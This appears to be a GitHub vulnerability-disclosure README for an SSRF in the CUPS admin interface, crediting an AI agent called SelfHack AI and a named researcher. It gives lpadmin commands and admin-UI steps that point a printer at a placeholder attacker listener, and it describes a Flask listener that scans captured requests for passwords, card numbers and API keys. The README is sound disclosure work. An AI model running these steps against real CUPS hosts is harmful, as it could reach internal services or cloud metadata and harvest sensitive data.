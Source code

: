 <img width="1918" height="321" alt="image" src="https://github.com/user-attachments/assets/5eeea057-13d9-4502-8327-dfa64af3f8f0" />
<img width="2698" height="422" alt="image" src="https://github.com/user-attachments/assets/159525ba-b207-4db5-bf36-33c79c2adb71" />
<img width="1712" height="236" alt="image" src="https://github.com/user-attachments/assets/08af1e9a-d40b-45fa-85ce-3974f306678b" />

# https://support.apple.com/en-en/125110


## SSRF via Fake Printer Injection in CUPS
**OE19992541396** — Reported: 2024-09-08  
**Finder / Reporter:** SelfHack AI / Alperen T. Ugurlu

> **WARNING:** This PoC is intended for authorized, isolated lab environments only. Do **NOT** run this against production systems or systems you do not own or have explicit permission to test. Unauthorized testing may be illegal.

---

## How SelfHack AI Discovered This 

SelfHack AI read the history books — the PrintNightmare saga (CVE‑2021‑1675 / CVE‑2021‑34527) — and used that story as a lesson, not a recipe. It simulated those failure modes inside a safe lab, asking a simple, dangerous question: what would a spooler do if told to talk to the wrong place? The agent then crawled into the CUPS admin UI, mapped the Add‑Printer workflow, and liked the spooler executable as a promising character in the plot. With needle‑precise tests and quiet runtime tracing, it fed crafted inputs and watched the spooler binary open a socket and walk straight to an attacker‑controlled listener — headers and timing in hand, the scene was undeniable. That single, observable handoff (admin UI → spooler process → outbound HTTP) turned a theory into a confirmed SSRF finding. This was not luck: it was autonomous learning — public research taught the agent what to suspect, simulations taught it how to test, and controlled observation let it prove the crime on a macOS stage.


## TL;DR
CUPS (Common UNIX Printing System) admin web interface (`http://localhost:631/admin`) can be induced to initiate HTTP requests when a malicious or fake printer connection URI (e.g., `http://attacker:8080`) is added via the **Add Printer** flow. This allows SSRF and potential disclosure of sensitive data or access to internal services.

---

## Impact
- SSRF: server-side requests to attacker-controlled or internal endpoints.  
- Possible exposure of sensitive headers/body content.  
- Potential access to cloud metadata endpoints (e.g., `169.254.169.254`) or other internal services.  
- Enables further exploitation or lateral movement when combined with other vulnerabilities.

---

## Affected Components / Environment
- CUPS admin web interface (`/admin`) — admin privileges required to add printers.  
- Observed on macOS and Linux systems with CUPS accepting arbitrary HTTP URIs without sufficient validation.  
- PoC testing requires: CUPS host + attacker-controlled HTTP listener (Flask PoC included in this repo).

---

## Root Cause
CUPS does not adequately validate or restrict admin-supplied printer connection URIs. When a connection URI is accepted, the CUPS daemon attempts to contact that URI — enabling SSRF when the URI points to internal or attacker-controlled addresses.

---

## Reproduction (authorized lab only)

### 1) Using the CUPS Admin UI
1. Open the CUPS admin UI: `http://localhost:631/admin` (admin privileges required).  
2. Go to **Add Printer**.  
3. In the **Connection** field enter:  
http://<POC_SERVER_IP>:8080

bash
Kodu kopyala
4. Complete the printer addition process.  
5. The PoC listener (see below) should receive and log the request from the CUPS server.

### 2) Start the PoC listener
```bash
cd ssrf-cups-fake-printer
chmod +x poc.py
./poc.py // starts the Flask listener on port 8080.
```
The listener logs incoming requests and scans headers/body for basic sensitive patterns.

### 3) Example using lpadmin (Linux/macOS)
```bash
sudo lpadmin -p fake-printer -E -v "http://<POC_SERVER_IP>:8080" -m everywhere
sudo cupsenable fake-printer
sudo lpstat -p fake-printer -l
```
These commands programmatically add a printer that points at the PoC listener, causing CUPS to attempt the connection.

# PoC Listener
See poc.py — a minimal Flask-based HTTP listener included in this repository. It:

Logs request metadata (client IP, headers, body).
Searches request content and headers for simple sensitive-data patterns (email, basic "password" patterns, credit-card-like numbers, API key heuristics).
Returns a JSON summary of what it observed.

Note: The PoC is intentionally simple for demonstration and triage. Do not treat it as production monitoring code.

# Disclosure Timeline
```bash
2024-09-08 — Vulnerability reported (OE19992541396)
2024-09-30 — Reporter follow-up
2024-10-02 — PoC provided to vendor
2025-09-15 - Fix Date
```
